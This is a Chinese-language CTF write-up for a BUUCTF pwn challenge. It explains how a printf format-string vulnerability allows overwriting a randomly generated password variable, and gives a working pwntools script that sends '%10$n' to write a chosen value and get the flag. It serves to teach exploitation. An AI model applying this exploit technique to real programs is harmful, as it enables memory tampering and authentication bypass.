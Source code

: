 ### Printf 指定地址修改

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677f3e5ed0e0a243d4f26067.jpg)

dword_804C044 是一个系统产生的随机数，需要我们输入的 passwd 等于这个随机数

![](https://pic1.imgdb.cn/item/677f3e75d0e0a243d4f260a8.jpg)

Printf 存在格式化漏洞，我们可以利用 %p 打印地址

可以看到我们输入的值在 10 个位置，可以用 %10$ 定位到这个位置

![](https://pic1.imgdb.cn/item/677f3e8cd0e0a243d4f260e1.jpg)

再来看看随机数地址

![](https://pic1.imgdb.cn/item/677f3eb8d0e0a243d4f26137.jpg)

```
%n$x：（n 为某一数值，x 为某个占位符）可以对栈上第 n 个参数进行相应占位符的操作
%x、%p：可以用来获取对应栈的内存，后者可以不用考虑位数区别
%s：可以用来获取对应栈的内容，注意有零截断
%n：可以将对应栈上的指针指向的内存内容修改为在它之前输入的字符数量
```

在 32 位中地址长度是 4 位

![](https://pic1.imgdb.cn/item/677f4b3bd0e0a243d4f27512.png)

所以最后传入 4 即可

```python
from pwn import *

p=remote('node5.buuoj.cn',26088)

p.recvuntil('name:')

payload = p32(0x0804c044) + b'%10$n'

p.sendline(payload)

p.recvuntil('passwd:')
p.sendline(str(4))
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/677f3f6bd0e0a243d4f262de.jpg)